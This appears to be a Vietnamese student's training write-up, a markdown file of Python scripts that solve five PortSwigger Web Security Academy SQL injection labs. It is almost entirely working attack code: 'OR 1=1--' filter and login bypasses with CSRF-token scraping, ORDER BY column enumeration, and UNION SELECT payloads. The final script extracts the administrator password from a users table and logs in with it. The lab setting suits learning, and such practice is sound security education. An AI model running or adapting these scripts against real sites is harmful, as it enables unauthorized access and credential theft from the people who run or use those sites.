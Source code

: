 # Mục lục
- [Lab 1](https://github.com/toanvunee/Training-KCSC/blob/main/Task-1/solveLabByPython.md#lab-1-sql-injection-vulnerability-in-where-clause-allowing-retrieval-of-hidden-data)
- [Lab 2](https://github.com/toanvunee/Training-KCSC/blob/main/Task-1/solveLabByPython.md#lab-2-sql-injection-vulnerability-allowing-login-bypass)
- [Lab 3](https://github.com/toanvunee/Training-KCSC/blob/main/Task-1/solveLabByPython.md#lab-3-sql-injection-union-attack-determining-the-number-of-columns-returned-by-the-query)
- [Lab 4](https://github.com/toanvunee/Training-KCSC/blob/main/Task-1/solveLabByPython.md#lab-4-sql-injection-union-attack-finding-a-column-containing-text)
- [Lab 5](https://github.com/toanvunee/Training-KCSC/edit/main/Task-1/solveLabByPython.md#lab-5-sql-injection-union-attack-retrieving-data-from-other-tables)


# LAB 1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

```python
import requests
print("Gửi URL dưới dạng: https://xxxxx.web-security-academy.net/")
url = input("Nhập URL: ").rstrip("/")
target_url = f"{url}/filter?category=Gifts'+OR+1=1+--"

response = requests.get(target_url)
if (response.status_code == 200):
    print("Successful")
else:
    print("Failed")
```

# LAB 2: SQL injection vulnerability allowing login bypass
- Em không có hiểu cái cách lấy CSRF nên e dùng chatGPT để làm cái đoạn đó ạ 🥲
```python
import requests
from bs4 import BeautifulSoup

url = input("Nhập URL: ").rstrip("/")
login_url = f"{url}/login"

session = requests.Session()
response = session.get(login_url)

if response.status_code != 200:
    print(f"Không thể truy cập {login_url}, mã lỗi: {response.status_code}")
    exit()

soup = BeautifulSoup(response.text, "html.parser")
csrf_token = soup.find("input", {"name": "csrf"})["value"]

data = {
    "csrf": csrf_token,
    "username": "admin' OR 1=1--",
    "password": "a"
}

response = session.post(login_url, data=data)
print(f"Request sent to: {login_url}")
if (response.status_code == 200):
    print("Login successful!")
else:
    print("Login failed!")
```

# LAB 3: SQL injection UNION attack, determining the number of columns returned by the query
```python
import requests

print("Gửi URL dưới dạng: https://xxxxx.web-security-academy.net/")
url = input("Nhập URL: ").rstrip("/")


i = 1
while True:
    order_url = f"{url}/filter?category=Gifts'+ORDER+BY+{i}+--"
    response = requests.get(order_url)

    if response.status_code == 200:
        i += 1  
    else:
        i -= 1  
        break

null_values = ",+".join(["NULL"] * i)
union_url = f"{url}/filter?category=Gifts'+UNION+SELECT+{null_values}--"

print(f"Payload UNION: {union_url}")
response = requests.get(union_url)

if (response.status_code == 200):
    print("Successful")
else:
    print("Failed")
```

# LAB 4: SQL injection UNION attack, finding a column containing text
```python
import requests

print("Gửi URL dưới dạng: https://xxxxx.web-security-academy.net/")
url = input("Nhập URL: ").rstrip("/")
print("Ví dụ: Giá trị được lab cung cấp: aNjdF")
value = input("Giá trị được lab cung cấp: ")

i = 1
while True:
    order_url = f"{url}/filter?category=Gifts'+ORDER+BY+{i}+--"
    response = requests.get(order_url)

    if response.status_code == 200:
        i += 1  
    else:
        i -= 1  
        break

for pos in range(i):
    test_values = ["NULL"] * i  
    test_values[pos] = f"'{value}'"  

    null_values = ",+".join(test_values)
    union_url = f"{url}/filter?category=Gifts'+UNION+SELECT+{null_values}--"
    
    print(f"Thử payload: {union_url}")
    response = requests.get(union_url)
    
    if response.status_code == 200:
        print("Successful")
        break 
```

# LAB 5: SQL injection UNION attack, retrieving data from other tables
```python
import requests
from bs4 import BeautifulSoup

print("Gửi URL dưới dạng: https://xxxxx.web-security-academy.net/")
url = input("Nhập URL: ").rstrip("/")

union_url = f"{url}/filter?category=Gifts'+UNION+SELECT+username,+password+FROM+users--"

response = requests.get(union_url)

if response.status_code == 200:
    soup = BeautifulSoup(response.text, "html.parser")
    table_rows = soup.find_all("tr")

    password_found = None
    for row in table_rows:
        th = row.find("th")
        td = row.find("td")
        if th and td and th.text.strip() == "administrator":
            password_found = td.text.strip()
            break

    if password_found:
        print(f"Tìm thấy password của administrator: {password_found}")
    else:
        print("Không tìm thấy password của administrator.")
        exit()

login_url = f"{url}/login"
session = requests.Session()
response = session.get(login_url)

soup = BeautifulSoup(response.text, "html.parser")
csrf_token = soup.find("input", {"name": "csrf"})["value"]

data = {
    "csrf": csrf_token,
    "username": "administrator",
    "password": password_found
}

response = session.post(login_url, data=data)

if "Welcome" in response.text or response.status_code == 200:
    print("Thành công!")
```
